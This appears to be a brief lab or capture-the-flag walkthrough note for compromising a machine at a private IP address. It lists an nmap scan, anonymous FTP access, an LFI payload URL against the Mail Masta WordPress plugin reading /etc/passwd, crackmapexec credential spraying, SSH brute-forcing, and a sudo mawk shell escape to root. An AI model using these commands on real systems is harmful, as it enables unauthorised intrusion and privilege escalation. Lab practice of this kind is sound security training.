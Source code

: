 nmap -p- -sV -sC -Pn 192.168.102.112 --open

ftp anonymous available
passwords in pdf

wpscan for 
LFI in mail masta plugin
http://192.168.102.112/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
got username

crackmapexec smb 192.168.102.112 -u user112.txt -p password112.txt --shares --continue-on-success
 bruteforce ssh
 got sarah for ssh
 sudo -l 
 mawk
 sudo mawk 'BEGIN {system("/bin/sh")}'
 gtfobins got root